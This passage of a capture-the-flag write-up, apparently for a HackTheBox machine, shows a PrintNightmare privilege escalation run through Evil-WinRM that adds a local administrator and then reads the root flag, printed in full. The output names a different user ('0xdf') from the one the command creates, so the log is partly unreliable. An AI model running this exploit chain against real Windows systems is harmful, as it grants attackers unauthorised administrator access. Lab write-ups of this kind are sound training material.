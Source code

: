 
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module .\cve.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser "Vendetta" -NewPassword "Vendetta00"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user 0xdf as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
*Evil-WinRM* PS C:\Users\tony\Documents> 

our user is added so let's open new tab in our terminal

evil-winrm -i 10.10.11.106 -u Vendetta -p Vendetta00

*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       12/10/2021  10:58 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
d0beabd41e64a23047dc6a4aaa158aa1


##Done 

00


